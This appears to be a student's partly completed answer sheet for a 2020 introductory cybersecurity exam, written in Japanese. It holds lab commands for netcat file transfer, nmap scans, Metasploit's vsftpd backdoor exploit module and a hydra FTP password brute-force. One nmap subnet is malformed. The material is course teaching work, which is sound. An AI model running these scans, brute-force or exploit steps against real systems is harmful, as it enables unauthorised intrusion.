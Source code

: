 # CyberSecurity I Exam 2020 回答用紙

## 問1 [netcat]

### 1.
#### サーバー側コマンド

```sh
# nc -lvp 5555 

```
#### クライアント側コマンド

```sh
# nc 192.168.33.10 5555 

```
### 1.
#### サーバー側コマンド

```sh
# nc -l 5555 < file 

```
#### クライアント側コマンド

```sh
# nc 192.168.33.10 5555 > file 

```

## 問2 [Password Crack]

### 1.
```md
<!--  ここに回答を記述 -->

```

### 2.
```md
<!--  ここに回答を記述 -->

```

## 問3 [Port Scanner]

### 1. ping scan

```sh
# nmap -sP 192.168.30.0/127

```

### 2. version scan

```sh
# nmap -sV -p- 192.168.33.11 

```

## 問4 [Metasploit Framework]

```sh
# msfconsole 
# use exploit/unix/ftp/vsftpd_234_backdoor
# exploit(unix/ftp/vsftpd_234_backdoor) > show options 
# exploit(unix/ftp/vsftpd_234_backdoor) >exploit
```

## 問5 [Online Password Cracker]


### 1. コマンド

```sh
# hydra -L user.list -P pass.list -t 8 192.168.33.11 ftp

```

### 2. 解析結果

```sh
# ここに回答を記述

```

## 問6 [Packet Sniffer]

```sh
# ip.addr==192.168.33.11&&http 

```

## 問7 [不正アクセス]

### 1. rootアクセスの件数

```md
<!--  ここに回答を記述 --> 

```

### 2. 不正アクセスユーザーのTOP3

```md
<!--  ここに回答を記述 -->

```
### 3. IPアドレスのアクセス件数と発信国

```md
<!--  ここに回答を記述 -->

```

## 問8 [自己評価]

```md
<!-- 関心意欲態度は80点、技術面は15点   -->

```

## 問9 [講義の感想]

1.

```md
<!--  -仮想環境の構築 -ncの使い方 -nmapの使い方 -netcatの使い方 -wiresharkの使い方 -辞書攻撃によるパスワード解析 -ポートスキャン -->

```

2.
```md
<!--  授業について行くので精一杯だったのでもっと理解を深めるためにこの授業が終わっても復習したり分からないところを調べたりして実践していくことが必要だと思った -->

```

